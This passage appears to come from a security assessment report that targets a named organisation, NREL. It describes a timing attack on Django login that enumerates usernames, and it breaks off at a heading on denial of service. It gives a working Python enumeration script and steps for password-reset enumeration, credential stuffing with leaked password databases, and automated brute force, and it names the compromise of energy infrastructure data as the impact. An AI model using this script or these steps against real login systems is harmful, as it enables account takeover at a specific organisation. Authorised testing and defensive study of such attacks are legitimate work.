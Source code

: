 **Vulnerable Component:** Django authentication system in versions < 4.2.14

**Attack Methodology:**
```python
import requests
import time

def timing_attack(target_url, username_list):
    """
    Enumerate valid usernames by measuring response times
    """
    valid_usernames = []

    for username in username_list:
        start = time.time()
        response = requests.post(
            f"{target_url}/auth/login",
            data={"username": username, "password": "dummy"}
        )
        elapsed = time.time() - start

        # Valid usernames typically take longer to process
        # due to password hashing operations
        if elapsed > THRESHOLD:
            valid_usernames.append(username)

    return valid_usernames
```

**Exploitation Steps:**
1. **Username Enumeration:**
   - Send login requests with common usernames
   - Measure response times
   - Valid usernames show longer response times (password is hashed even if wrong)
   - Invalid usernames fail faster (no password hash operation)

2. **Password Reset Exploitation:**
   - Use timing attacks on password reset endpoints
   - Enumerate email addresses associated with accounts
   - Request password resets for valid accounts

3. **Credential Stuffing:**
   - Use enumerated usernames with leaked password databases
   - Automated brute-force attacks against enumerated accounts

**Impact:**
- Complete list of valid user accounts
- Foundation for targeted credential attacks
- Potential access to privileged NREL accounts
- Compromise of energy infrastructure data

---

#### 4.3 Denial of Service Attacks
